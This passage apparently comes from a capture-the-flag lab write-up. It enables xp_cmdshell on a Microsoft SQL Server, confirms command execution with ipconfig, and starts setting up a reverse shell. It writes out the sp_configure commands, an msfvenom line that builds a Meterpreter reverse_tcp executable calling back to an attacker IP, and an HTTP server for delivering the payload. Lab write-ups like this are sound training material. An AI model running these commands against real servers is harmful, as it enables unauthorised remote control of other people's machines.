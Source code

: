 The output showed that both `config_value` and `run_value` for `xp_cmdshell` were set to 0, meaning the feature is currently disabled. Because our user seems to have sufficient privileges, we proceed to enable it.

```
EXEC sp_configure 'xp_cmdshell', 1;
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
RECONFIGURE;
```

After enabling it, we verify by running a simple Windows command via SQL.

```
EXEC xp_cmdshell 'ipconfig';

output                                                                  
---------------------------------------------------------------------   
NULL                                                                    
Windows IP Configuration                                                
NULL                                                                    
NULL                                                                    
Ethernet adapter Ethernet0 2:                                           
NULL                                                                    
   Connection-specific DNS Suffix  . : .htb                             
   IPv6 Address. . . . . . . . . . . : dead:beef::2d16:9938:27ad:bcca   
   Link-local IPv6 Address . . . . . : fe80::2d16:9938:27ad:bcca%7      
   IPv4 Address. . . . . . . . . . . : 10.129.188.82                    
   Subnet Mask . . . . . . . . . . . : 255.255.0.0                      
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe96:3c3f%7       
                                       10.129.0.1       
```

This returns the network configuration of the target machine, confirming that we can now execute system commands directly from the database. Now that we have command execution on the target via `xp_cmdshell`, we can proceed with gaining a reverse shell to establish a more interactive session.

## Gaining a Reverse Shell

The goal now is to transfer a payload to the target machine and execute it to gain a Meterpreter shell. First, on our attacker machine, we generate a Meterpreter reverse shell using `msfvenom`.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.249 LPORT=1234 -f exe > msf.exe
```

- `LHOST` is our attack box IP.
- `LPORT` is the port we'll listen on.
- `f exe` outputs a Windows executable.

We then serve this file using Python’s built-in HTTP server.

```
python3 -m http.server 80
```

This allows the target to download the payload directly from our machine. On our attacker machine, we set up Metasploit to catch the reverse shell using the `multi/handler` module.
